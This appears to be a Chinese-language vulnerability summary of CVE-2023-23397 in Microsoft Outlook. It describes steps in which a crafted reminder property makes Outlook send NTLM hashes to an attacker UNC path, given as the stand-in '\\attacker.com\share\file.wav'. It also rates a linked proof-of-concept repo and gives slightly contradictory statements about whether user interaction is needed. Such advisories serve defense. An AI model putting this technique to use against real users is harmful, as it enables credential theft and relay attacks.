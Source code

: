 ## CVE-2023-23397-Microsoft Outlook Elevation of Privilege Vulnerability

**漏洞编号:** CVE-2023-23397

**漏洞类型:** 权限提升

**影响应用:** Microsoft Outlook

**危害等级:** 高危，可能导致权限提升和NTLM Relay攻击

**影响版本:** 受影响版本包括Microsoft Outlook 2013 SP1, 2016, 2019, Office LTSC 2021和Microsoft 365 Apps for Enterprise的特定版本。

**利用条件:** 攻击者需要向受害者发送特制的邮件，无需用户交互。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2023-23397 是一个 Microsoft Outlook 权限提升漏洞。攻击者可以构造包含恶意 `PidLidReminderFileParameter` 属性的邮件，当 Outlook 处理此邮件时，会自动尝试连接到攻击者控制的 UNC 路径（例如：`\\attacker.com\share\file.wav`）。

由于 Outlook 在连接 UNC 路径时会使用当前用户的 NTLM 凭据进行身份验证，攻击者可以捕获 NTLM 哈希并利用它进行 NTLM Relay 攻击。

**有效性：**
根据漏洞库信息，CISA 已经将该漏洞添加到已知被利用漏洞目录中，搜索引擎结果中也包含了利用分析报告，表明该漏洞的利用是有效的。

**投毒风险：**
提供的漏洞利用代码仅包含 GNU General Public License 的文本，没有发现任何可疑的、与漏洞利用相关的后门代码。因此，投毒风险较低。

**利用方式：**
1.  攻击者构造包含恶意 `PidLidReminderFileParameter` 属性的邮件。
2.  受害者接收并使用受影响的 Outlook 版本打开邮件。
3.  Outlook 尝试连接到攻击者控制的 UNC 路径。
4.  Outlook 在连接时发送受害者的 NTLM 哈希。
5.  攻击者捕获 NTLM 哈希并进行 NTLM Relay 攻击，冒充受害者。

攻击无需用户交互，只需要受害者打开包含恶意属性的邮件。该漏洞的严重性在于其隐蔽性和潜在的 NTLM Relay 攻击。

**项目地址:** [im007/CVE-2023-23397](https://github.com/im007/CVE-2023-23397)

**漏洞详情:** [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)